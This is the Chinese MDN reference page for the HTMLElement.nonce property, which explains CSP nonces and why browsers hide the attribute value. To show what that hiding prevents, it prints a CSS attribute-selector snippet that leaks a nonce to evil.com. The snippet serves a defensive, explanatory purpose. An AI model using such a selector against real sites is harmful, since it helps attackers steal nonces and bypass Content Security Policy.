 ```yaml
---
title: HTMLElement.nonce
slug: Web/API/HTMLElement/nonce
---
```

{{SeeCompatTable}}{{APIRef("HTML DOM")}}

{{domxref("HTMLElement")}} 接口的 **`nonce`** 属性返回只使用一次的加密数字，被内容安全政策用来决定这次请求是否被允许处理。

在接下来的实现中，有 nonce 属性的元素只能在脚本中使用（不可以在其他渠道使用，比如 css 属性选择器）。

## 语法

```plain
var nonce = HTMLElement.nonce
HTMLElement.nonce = nonce
```

### 访问 nonce 属性值

以前，并不是所有的浏览器都支持 `nonce` IDL 属性，因此在实际应用场景中，尝试使用[`getAttribute`](/zh-CN/docs/Web/API/Element/getAttribute) 作为备选：

```plain
let nonce = script['nonce'] || script.getAttribute('nonce');
```

然而，最新的浏览器版本都隐藏了 `nonce` 值（返回一个空值）。IDL 属 (`script['nonce']`) 成为唯一的访问方式。

隐藏 Nonce 是为了阻止攻击者通过某种机制提取出 nonce 值，比如下面这种方式：

```plain
script[nonce~=whatever] {
  background: url("https://evil.com/nonce?whatever");
}
```

## 规范

{{Specifications}}

## 支持的浏览器

{{Compat("api.HTMLElement.nonce")}}
